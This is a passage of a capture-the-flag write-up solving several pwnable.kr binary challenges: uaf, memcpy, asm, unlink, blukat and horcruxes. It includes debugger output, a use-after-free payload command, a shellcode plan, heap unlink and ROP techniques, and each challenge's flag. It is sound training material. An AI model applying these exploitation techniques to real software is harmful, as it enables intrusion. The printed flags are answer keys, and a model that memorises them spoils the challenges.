    +---

    Woman::$vftable@Human@:
    +---
    | &Human::give_shell
    | &Woman::introduce
    +---
    ```
* According to the challenge's name, it's about use after free bug
  * The freed pointer is not set to NULL and can still be referenced
### Exploit
* Find the address of give_shell()
  * ```sh
    gdb-peda$ x/wx _ZN5Human10give_shellEv
    0x40117a <_ZN5Human10give_shellEv>:     0xe5894855
    ```
* Find the address of Man::introduce
  * ```sh
    gdb-peda$ x/wx _ZN3Man9introduceEv
    0x4012d2 <_ZN3Man9introduceEv>: 0xe5894855
    ```
* Find the offset of give_shell from introduce in Man's vftable
  ```sh
  gdb-peda$ x/10wx 0x401570
  0x401570 <_ZTV3Man+16>: 0x0040117a      0x00000000      0x004012d2      0x00000000
  ```
  * The offset is -8
* To write on the previous freed blocks, we need to malloc the new block with same size, and due to the heap's maintain mechanism, it'll give us the latest freed block which has the same size
  * According to gdb, the size is 0x18 = 24<br>
    ```sh
    => 0x400f00 <main+60>:  call   0x400d90 <_Znwm@plt>
       0x400f05 <main+65>:  mov    rbx,rax
       0x400f08 <main+68>:  mov    edx,0x19
       0x400f0d <main+73>:  mov    rsi,r12
       0x400f10 <main+76>:  mov    rdi,rbx
    Guessed arguments:
    arg[0]: 0x18
    ```
* The free option first delete object m and then object w, however, the use option will call m->introduce() first. Thus we need to call malloc twice to get the block of object m
* To make Man::introduce points to give_shell, we need to make the address of vfptr become original address - 0x8
  * 0x401570 - 0x8 = 0x401568
```sh
$ python -c "print '\x68\x15\x40\x00\x00\x00\x00\x00'" > /tmp/payload
$ ./uaf 24 /tmp/payload
1. use
2. after
3. free
3
1. use
2. after
3. free
2
your data is allocated
1. use
2. after
3. free
2
your data is allocated
1. use
2. after
3. free
1
$ ls
flag  uaf  uaf.cpp
```
### Flag
```yay_f1ag_aft3r_pwning```
### Reference
* https://eternalsakura13.com/2018/02/13/uaf/

## memcpy
### Description
> Are you tired of hacking?, take some rest here.  
> Just help me out with my small experiment regarding memcpy performance.  
> after that, flag is yours.
> 
> http://pwnable.kr/bin/memcpy.c
> 
> ssh memcpy@pwnable.kr -p2222 (pw:guest)
> 
* compiled in linux with : ```gcc -o memcpy memcpy.c -m32 -lm```
* ```/usr/include/stdio.h:27:10: fatal error: bits/libc-header-start.h: No such file or directory``` can be solved by [```sudo apt-get install gcc-multilib```](https://askubuntu.com/questions/91909/trouble-compiling-a-32-bit-binary-on-a-64-bit-machine)
### Overview
* Code review
  * main
    ```c
    // setup experiment parameters
    for(e=4; e<14; e++){	// 2^13 = 8K
      low = pow(2,e-1);
      high = pow(2,e);
      printf("specify the memcpy amount between %d ~ %d : ", low, high);
      scanf("%d", &size);
      if( size < low || size > high ){
        printf("don't mess with the experiment.\n");
        exit(0);
      }
      sizes[i++] = size;
    }

    // run experiment
    for(i=0; i<10; i++){
      size = sizes[i];
      printf("experiment %d : memcpy with buffer size %d\n", i+1, size);
      dest = malloc( size );

      memcpy(cache1, cache2, 0x4000);		// to eliminate cache effect
      t1 = rdtsc();
      slow_memcpy(dest, src, size);		// byte-to-byte memcpy
      t2 = rdtsc();
      printf("ellapsed CPU cycles for slow_memcpy : %llu\n", t2-t1);

      memcpy(cache1, cache2, 0x4000);		// to eliminate cache effect
      t1 = rdtsc();
      fast_memcpy(dest, src, size);		// block-to-block memcpy
      t2 = rdtsc();
      printf("ellapsed CPU cycles for fast_memcpy : %llu\n", t2-t1);
      printf("\n");
    }

    printf("thanks for helping my experiment!\n");
    printf("flag : ----- erased in this source code -----\n");
    return 0;
    ```
    * We can setup the experiment with different copy sizes, and if all the experiments is done, we'll get the flag as reward
    * The program will implement two kinds of memory copy, slow_memcpy and fast_memcpy
    * [```rdtsc```](https://www.aldeid.com/wiki/X86-assembly/Instructions/rdtsc)
      * The rdtsc (Read Time-Stamp Counter) instruction is used to determine how many CPU ticks took place since the processor was reset
      * Loads the current value of the processor's time-stamp counter into the EDX:EAX registers
      * It is commonly used as a timing defense (anti-debugging technique)
  * slow_memcpy
    ```c
    for (i=0; i<len; i++) {
      dest[i] = src[i];
    }
    return dest;
    ```
    * Copied byte by byte
  * fast_memcpy
    ```c
    // 64-byte block fast copy
    if(len >= 64){
      i = len / 64;
      len &= (64-1);
      while(i-- > 0){
        __asm__ __volatile__ (
        "movdqa (%0), %%xmm0\n"
        "movdqa 16(%0), %%xmm1\n"
        "movdqa 32(%0), %%xmm2\n"
        "movdqa 48(%0), %%xmm3\n"
        "movntps %%xmm0, (%1)\n"
        "movntps %%xmm1, 16(%1)\n"
        "movntps %%xmm2, 32(%1)\n"
        "movntps %%xmm3, 48(%1)\n"
        ::"r"(src),"r"(dest):"memory");
        dest += 64;
        src += 64;
      }
    }

    // byte-to-byte slow copy
    if(len) slow_memcpy(dest, src, len);
    return dest;
    ```
    * As the comment says, it'll do 64-byte block copy, and the rest will be byte-to-byte copy
    * [```__asm__ __volatile__```](https://stackoverflow.com/questions/26456510/what-does-asm-volatile-do-in-c)
      * The embedded assembly code will not be optimized by the compiler
    * [```movdqa```](https://mudongliang.github.io/x86/html/file_module_x86_id_183.html)
      * Move Aligned Double Quadword
      * This instruction can be used to load an XMM register from a 128-bit memory location, to store the contents of an XMM register into a 128-bit memory location, or to move data between two XMM registers
      * When the source or destination operand is a memory operand, the operand must be aligned on a 16-byte boundary
    * [```movntps```](http://www.jaist.ac.jp/iscenter-new/mpc/altix/altixdata/opt/intel/vtune/doc/users_guide/mergedProjects/analyzer_ec/mergedProjects/reference_olh/mergedProjects/instructions/instruct32_hh/vc197.htm)
      * Move Aligned Four Packed Single-FP Non Temporal
      * Moves the double quadword in the source operand (second operand) to the destination operand (first operand) using a non-temporal hint to minimize cache pollution during the write to memory
      * The source operand is an XMM register, which is assumed to contain four packed single-precision floating-point values
      * The destination operand is a 128-bit, 256-bit or 512-bit memory location
      * The memory operand must be aligned on a 16-byte (128-bit version), 32-byte (VEX.256 encoded version) or 64-byte (EVEX.512 encoded version) boundary
* Fuzz
  * parameters = [8, 16, 32, 64, 128, 256, 512, 1024, 2048, 4096]
  * result
    ```sh
    experiment 1 : memcpy with buffer size 8
    ellapsed CPU cycles for slow_memcpy : 2848
    ellapsed CPU cycles for fast_memcpy : 268

    experiment 2 : memcpy with buffer size 16
    ellapsed CPU cycles for slow_memcpy : 260
    ellapsed CPU cycles for fast_memcpy : 362

    experiment 3 : memcpy with buffer size 32
    ellapsed CPU cycles for slow_memcpy : 386
    ellapsed CPU cycles for fast_memcpy : 530

    experiment 4 : memcpy with buffer size 64
    ellapsed CPU cycles for slow_memcpy : 728
    ellapsed CPU cycles for fast_memcpy : 176

    experiment 5 : memcpy with buffer size 128
    ellapsed CPU cycles for slow_memcpy : 1296
    ```
    * The 5th experiment stucks at the fast_memcpy and crashed
    * It might caused by the limitation on alignment. According to the description ```movdqa``` and ```movntps``` both requires 16-byte alignment
* Alignment
  * Our input only affect the structure of dest so we'll focus on ```movntps``` instruction
  * The program use ```malloc``` to allocate spaces to dest, so we need to make sure the result of ```malloc``` is divisible by 16 bytes
  * [```malloc```](https://man7.org/linux/man-pages/man3/free.3.html)
    * The result of malloc will have size larger than or equal to argument we provide due to [chunk metadata](https://azeria-labs.com/heap-exploitation-part-1-understanding-the-glibc-heap-implementation/) and the alignment strategy used, which is aligned to 8 bytes in 32-bit program
    * chunk metadata is 4 byte in 32-bit program
  * chunk size = Align(malloc size + 0x4, 0x8)
    * Make sure each chunk size is divisible by 16
### Exploit
```sh
specify the memcpy amount between 8 ~ 16 : 8
specify the memcpy amount between 16 ~ 32 : 24
specify the memcpy amount between 32 ~ 64 : 40
specify the memcpy amount between 64 ~ 128 : 72
specify the memcpy amount between 128 ~ 256 : 136
specify the memcpy amount between 256 ~ 512 : 264
specify the memcpy amount between 512 ~ 1024 : 520
specify the memcpy amount between 1024 ~ 2048 : 1032
specify the memcpy amount between 2048 ~ 4096 : 2056
specify the memcpy amount between 4096 ~ 8192 : 4104
ok, lets run the experiment with your configuration
experiment 1 : memcpy with buffer size 8
ellapsed CPU cycles for slow_memcpy : 2090
ellapsed CPU cycles for fast_memcpy : 192

experiment 2 : memcpy with buffer size 24
ellapsed CPU cycles for slow_memcpy : 322
ellapsed CPU cycles for fast_memcpy : 256

experiment 3 : memcpy with buffer size 40
ellapsed CPU cycles for slow_memcpy : 436
ellapsed CPU cycles for fast_memcpy : 420

experiment 4 : memcpy with buffer size 72
ellapsed CPU cycles for slow_memcpy : 568
ellapsed CPU cycles for fast_memcpy : 248

experiment 5 : memcpy with buffer size 136
ellapsed CPU cycles for slow_memcpy : 1008
ellapsed CPU cycles for fast_memcpy : 190

experiment 6 : memcpy with buffer size 264
ellapsed CPU cycles for slow_memcpy : 1904
ellapsed CPU cycles for fast_memcpy : 232

experiment 7 : memcpy with buffer size 520
ellapsed CPU cycles for slow_memcpy : 3602
ellapsed CPU cycles for fast_memcpy : 252

experiment 8 : memcpy with buffer size 1032
ellapsed CPU cycles for slow_memcpy : 7342
ellapsed CPU cycles for fast_memcpy : 426

experiment 9 : memcpy with buffer size 2056
ellapsed CPU cycles for slow_memcpy : 14160
ellapsed CPU cycles for fast_memcpy : 710

experiment 10 : memcpy with buffer size 4104
ellapsed CPU cycles for slow_memcpy : 30038
ellapsed CPU cycles for fast_memcpy : 1334

thanks for helping my experiment!
```
### Flag
```1_w4nn4_br34K_th3_m3m0ry_4lignm3nt```

## asm
### Description
> Mommy! I think I know how to make shellcodes
> 
> ssh asm@pwnable.kr -p2222 (pw: guest)
* flag file name
  * ```this_is_pwnable.kr_flag_file_please_read_this_file.sorry_the_file_name_is_very_loooooooooooooooooooooooooooooooooooooooooooooooooooooooooooooooooooooooooooo0000000000000000000000000ooooooooooooooooooooooo000000000000o0o0o0o0o0o0ong```
### Overview
* Code review
  ```c
  char* sh = (char*)mmap(0x41414000, 0x1000, 7, MAP_ANONYMOUS | MAP_FIXED | MAP_PRIVATE, 0, 0);
  memset(sh, 0x90, 0x1000);
  memcpy(sh, stub, strlen(stub));

  int offset = sizeof(stub);
  printf("give me your x64 shellcode: ");
  read(0, sh+offset, 1000);
  ```
  * [The stub is cleaing all the registers](https://defuse.ca/online-x86-assembler.htm#disassembly2)
    ```asm
    0:  48 31 c0                xor    rax,rax
    3:  48 31 db                xor    rbx,rbx
    6:  48 31 c9                xor    rcx,rcx
    9:  48 31 d2                xor    rdx,rdx
    c:  48 31 f6                xor    rsi,rsi
    f:  48 31 ff                xor    rdi,rdi
    12: 48 31 ed                xor    rbp,rbp
    15: 4d 31 c0                xor    r8,r8
    18: 4d 31 c9                xor    r9,r9
    1b: 4d 31 d2                xor    r10,r10
    1e: 4d 31 db                xor    r11,r11
    21: 4d 31 e4                xor    r12,r12
    24: 4d 31 ed                xor    r13,r13
    27: 4d 31 f6                xor    r14,r14
    2a: 4d 31 ff                xor    r15,r15
    ```
  * The challenge says ```Try to make shellcode that spits flag using open()/read()/write() systemcalls only``` and take our input as x64 shellcode
* open
  * rax = 0x02
  * rdi = const char *filename
  * rsi = int flags
  * rdx = umode_t mode
* read
  * rax = 0x00
  * rdi = unsigned int fd
  * rsi = char *buf
  * rdx = size_t count
* write
  * rax = 0x01
  * rdi = unsigned int fd
  * rsi = const char *buf
  * rdx = size_t count
### [Exploit](asm/exp.py)
* These functions are enough to read the flag
  * open("this_is_pwnable.kr_flag_file_please_read_this_file.sorry_the_file_name_is_very_loooooooooooooooooooooooooooooooooooooooooooooooooooooooooooooooooooooooooooo0000000000000000000000000ooooooooooooooooooooooo000000000000o0o0o0o0o0o0ong", 0)
  * read(3, filename_addr,0x30)
    * fd = 3 = first fd of the new open file in a clean machine
      * We can also utilize the return value of open since it'll be the fd of the open file. The return value stored in rax
    * filename_addr = address of the filename which is going to be the top of the stack if we push the entire file name to the stack
      * Not rbp becuase it's little endian
    * 0x30 = length. This value needs to be larger than the length of flag
  * write(1, filename_addr, 0x30)
    * fd = 1 = stdout
### Flag
```Mak1ng_shelLcodE_i5_veRy_eaSy```
### Reference
* https://chromium.googlesource.com/chromiumos/docs/+/master/constants/syscalls.md#x86_64-64_bit
* https://defuse.ca/online-x86-assembler.htm#disassembly

## unlink
### Description
> Daddy! how can I exploit unlink corruption?
> 
> ssh unlink@pwnable.kr -p2222 (pw: guest)
### Overview
* Code review
  * main
    ```c
    malloc(1024);
    OBJ* A = (OBJ*)malloc(sizeof(OBJ));
    OBJ* B = (OBJ*)malloc(sizeof(OBJ));
    OBJ* C = (OBJ*)malloc(sizeof(OBJ));

    // double linked list: A <-> B <-> C
    A->fd = B;
    B->bk = A;
    B->fd = C;
    C->bk = B;

    printf("here is stack address leak: %p\n", &A);
    printf("here is heap address leak: %p\n", A);
    printf("now that you have leaks, get shell!\n");
    // heap overflow!
    gets(A->buf);

    // exploit this unlink!
    unlink(B);
    return 0;
    ```
    * leak stack and heap addresses
    * create three object and make them a double linked list
    * heap overflow
  * OBJ
    ```c
    typedef struct tagOBJ{
      struct tagOBJ* fd;
      struct tagOBJ* bk;
      char buf[8];
    }OBJ;
    ```
    * 4+4+8 bytes = 0x10 bytes
  * unlink
    ```c
    void unlink(OBJ* P){
      OBJ* BK;
      OBJ* FD;
      BK=P->bk;
      FD=P->fd;
      FD->bk=BK;
      BK->fd=FD;
    }
    ```
    * Normally, it'll make the target object's fd points to target object's bk and vice versa
    * With heap overflow we can control all the value of pointers
* Stack layout
  ```sh
  gdb-peda$ x/10wx 0xffffa8f4
                 |OBJ A addr|    |OBJ C addr|    | OBJ A addr|
  0xffffa8f4:     0x09906410      0x09906440      0x09906428
  ```
* Heap layout
  ```sh
  gdb-peda$ x/20wx 0x09906410-8
                 |        OBJ A header      |    | A -> fd  |    | A -> bk  |
  0x9906408:      0x00000000      0x00000019      0x09906428      0x00000000
                 |        A -> buf          |    |        OBJ B header      |
  0x9906418:      0x00000000      0x00000000      0x00000000      0x00000019
                 | B -> fd  |    | B -> bk  |    |        B -> buf          |
  0x9906428:      0x09906440      0x09906410      0x00000000      0x00000000
                 |        OBJ C header      |    | C -> fd  |     | C -> bk |
  0x9906438:      0x00000000      0x00000019      0x00000000      0x09906428
                 |        C -> buf          |
  0x9906448:      0x00000000      0x00000000
  ```
* shell function address
  ```sh
  gdb-peda$ p shell
  $1 = {<text variable, no debug info>} 0x80484eb <shell>
  ```
### [Exploit](unlink/exp.py)
* Find out how to control the return address of main such that we can redirect the control flow to execute shell function
  ```c
  0x080485f2 <+195>:   call   0x8048504 <unlink>
  0x080485f7 <+200>:   add    esp,0x10
  0x080485fa <+203>:   mov    eax,0x0
  0x080485ff <+208>:   mov    ecx,DWORD PTR [ebp-0x4]
  0x08048602 <+211>:   leave  // mov esp, ebp; pop ebp
  0x08048603 <+212>:   lea    esp,[ecx-0x4]
  0x08048606 <+215>:   ret    // pop eip
  ```
  * There's an unusual instruction between ```leave``` and ```return```. The instruction ```lea esp,[ecx-0x4]``` will modify the value on the stack and thus affect the value of return address
  * return address = eip = [esp] = [ecx-0x4] = [[ebp-0x4]-0x4]
    * We want this value to be the address of shell function, i.e. 0x80484eb
  * ebp will be the same value across main function, so we have to find out if it's possible to control the value at address ebp-0x4
* Find offsets
  ```sh
  gdb-peda$ x/wx $ebp-0x4
  0xfff5be94:     0xfff5beb0

  gdb-peda$ x/10wx 0xfff5be84
                  |   A    |      |    C   |      |    B   |
  0xfff5be84:     0x081d6410      0x081d6440      0x081d6428      0xf77623dc
  |$ebp-0x4|     |[$ebp-0x4]|
  0xfff5be94:     0xfff5beb0      0x00000000      0xf75c7647      0xf7762000
  0xfff5bea4:     0xf7762000      0x00000000
  ```
  * We know the stack address that stores object A so we can calculate the offset
    * ($ebp-0x4) - leak stack address = 0x10
  * [[leak_stk_addr + 0x10] - 0x4] = 0x80484eb
  * We can put 0x80484eb on the buffer of object A, where we know the address is leak heap address + 0x8
    * [leak_stk_addr + 0x10] - 0x4 = leak_heap_addr + 0x8
    * [leak_stk_addr + 0x10] = leak_heap_addr + 0xc
      * Write value leak_heap_addr+0xc to address leak_stk_addr+0x10, which can be done by unlink
* unlink
  * New heap content after overflow
    * A->buf = 0x80484eb
    * B->bk = leak_stk_addr+0x10
    * B->fd = leak_heap_addr+0xc
  * What'll happen after unlink
    * B->bk->fd = *(B->bk + 0) = [leak_stk_addr+0x10] = B->fd = leak_heap_addr+0xc
### Flag
```conditional_write_what_where_from_unl1nk_explo1t```

## blukat
### Description
> Sometimes, pwnable is strange...  
> hint: if this challenge is hard, you are a skilled player.
> 
> ssh blukat@pwnable.kr -p2222 (pw: guest)
### Overview
* Code review
  ```c
  FILE* fp = fopen("/home/blukat/password", "r");
  fgets(password, 100, fp);
  char buf[100];
  printf("guess the password!\n");
  fgets(buf, 128, stdin);
  if(!strcmp(password, buf)){
    printf("congrats! here is your flag: ");
    calc_flag(password);
  }
  ```
  * There's a buffer overflow vulnerability but the size is too small to cause segmentation fault
* Check privilege of each file
  ```sh
  blukat@pwnable:~$ ls -la
  total 36
  drwxr-x---   4 root blukat     4096 Aug 16  2018 .
  drwxr-xr-x 116 root root       4096 Nov 11 14:52 ..
  -r-xr-sr-x   1 root blukat_pwn 9144 Aug  8  2018 blukat
  -rw-r--r--   1 root root        645 Aug  8  2018 blukat.c
  dr-xr-xr-x   2 root root       4096 Aug 16  2018 .irssi
  -rw-r-----   1 root blukat_pwn   33 Jan  6  2017 password
  drwxr-xr-x   2 root root       4096 Aug 16  2018 .pwntools-cache
  ```
  * we have the same privilege on password as on blukat and since we can execute blukat, we can read password directly
### Exploit
* Make the program run functionn calc_flag to show the flag
* Change the value of eflag to bypass the strcmp check
  ```sh
  gdb-peda$ eflags set zero = 1
  gdb-peda$ eflags
  EFLAGS: 0x246 (carry PARITY adjust ZERO sign trap INTERRUPT direction overflow)
  ```
### Flag
```Pl3as_DonT_Miss_youR_GrouP_Perm!!```

## horcruxes
### Description
> Voldemort concealed his splitted soul inside 7 horcruxes.  
> Find all horcruxes, and ROP it!  
> author: jiwon choi
> 
> ssh horcruxes@pwnable.kr -p2222 (pw:guest)
* This time no source code
* Download the binary to local for further analysis
  * ```scp -P 2222 horcruxes@pwnable.kr:/home/horcruxes/horcruxes /[LOCAL]/[PATH]```
### Overview
* Code review
  * main
    ```c
    int __cdecl main(int argc, const char **argv, const char **envp)
    {
      int v3; // ST1C_4

      setvbuf(stdout, 0, 2, 0);
      setvbuf(stdin, 0, 2, 0);
      alarm(0x3Cu);
      hint();
      init_ABCDEFG();
      v3 = seccomp_init(0);
      seccomp_rule_add(v3, 0x7FFF0000, 173, 0);
      seccomp_rule_add(v3, 0x7FFF0000, 5, 0);
      seccomp_rule_add(v3, 0x7FFF0000, 3, 0);
      seccomp_rule_add(v3, 0x7FFF0000, 4, 0);
      seccomp_rule_add(v3, 0x7FFF0000, 252, 0);
      seccomp_load(v3);
      return ropme();
    }
    ```
    * Pseudo c code generated by IDA Pro
    * seccomp rule (x86)
      * 173 = rt_sigreturn
      * 5 = open
      * 3 = read
      * 4 = write
      * 252 = exit_group
  * hint
    ```c
    puts("Voldemort concealed his splitted soul inside 7 horcruxes.");
    return puts("Find all horcruxes, and destroy it!\n");
    ```
  * init_ABCDEFG
    ```c
    fd = open("/dev/urandom", 0);
    if ( read(fd, &buf, 4u) != 4 )
    {
      puts("/dev/urandom error");
      exit(0);
    }
    close(fd);
    srand(buf);
    a = -559038737 * rand() % 0xCAFEBABE;
    b = -559038737 * rand() % 0xCAFEBABE;
    c = -559038737 * rand() % 0xCAFEBABE;
    d = -559038737 * rand() % 0xCAFEBABE;
    e = -559038737 * rand() % 0xCAFEBABE;
    f = -559038737 * rand() % 0xCAFEBABE;
    v0 = rand();
    g = -559038737 * v0 % 0xCAFEBABE;
    result = f + e + d + c + b + a + -559038737 * v0 % 0xCAFEBABE;
    sum = result;
    return result;
    ```
    * The random number is unbreakable in this case, so there's no way we can guess the right value of each variable
  * ropme
    ```c
    printf("Select Menu:");
    __isoc99_scanf("%d", &v2);
    getchar();
    if ( v2 == a )
    {
      A();
    }
    else if ( v2 == b )
    {
      B();
    }
    else if ( v2 == c )
    {
      C();
    }
    else if ( v2 == d )
    {
      D();
    }
    else if ( v2 == e )
    {
      E();
    }
    else if ( v2 == f )
    {
      F();
    }
    else if ( v2 == g )
    {
      G();
    }
    else
    {
      printf("How many EXP did you earned? : ");
      gets(s);
      if ( atoi(s) == sum )
      {
        fd = open("flag", 0);
        s[read(fd, s, 0x64u)] = 0;
        puts(s);
        close(fd);
        exit(0);
      }
      puts("You'd better get more experience to kill Voldemort");
    }
    return 0;
    ```
    * It'll show the flag if we guess the right vlaue of sum
    * There's a buffer overflow at gets(s)
  * A,B,C,D,E,F,G
    ```c
    printf("You found \"Tom Riddle's Diary\" (EXP +%d)\n", a);
    printf("You found \"Marvolo Gaunt's Ring\" (EXP +%d)\n", b);
    printf("You found \"Helga Hufflepuff's Cup\" (EXP +%d)\n", c);
    printf("You found \"Salazar Slytherin's Locket\" (EXP +%d)\n", d);
    printf("You found \"Rowena Ravenclaw's Diadem\" (EXP +%d)\n", e);
    printf("You found \"Nagini the Snake\" (EXP +%d)\n", f);
    printf("You found \"Harry Potter\" (EXP +%d)\n", g);
    ``` 
    * These all have the same pattern. it'll show the value of each variable
### [Exploit](horcruxes/exp.py)
* Find out the offset of buffer overflow
  ```c
  gdb-peda$ pattc 150
  'AAA%AAsAABAA$AAnAACAA-AA(AADAA;AA)AAEAAaAA0AAFAAbAA1AAGAAcAA2AAHAAdAA3AAIAAeAA4AAJAAfAA5AAKAAgAA6AALAAhAA7AAMAAiAA8AANAAjAA9AAOAAkAAPAAlAAQAAmAARAAoAA'

  gdb-peda$ info frame
  Stack level 0, frame at 0xffffdbd0:
  eip = 0x80a00ee in ropme; saved eip = 0x3941416a
  called by frame at 0xffffdbd4
  Arglist at 0xffffdbc8, args:
  Locals at 0xffffdbc8, Previous frame's sp is 0xffffdbd0
  Saved registers:
    ebp at 0xffffdbc8, eip at 0xffffdbcc
  
  gdb-peda$ pattern offset 0x3941416a
  960577898 found at offset: 120
  ```
  * offset = 120
* Return address set to the address of ```fd = open("flag", 0);```, 0x80A010B
  * There's an issue of this address, it contains [bad character](https://xuanxuanblingbling.github.io/ctf/pwn/2020/12/16/input/), \x0A, which will be considered as the end of string by gets
  * This strategy won't work
* Return address set to function A and then followed by function B,C,D,E,F,G and finally go back to ropme again. Since we've got all the value of variables, we can calculate the sum by ourself and bypass the check second time
### Flag
```Magic_spell_1s_4vad4_K3daVr4!```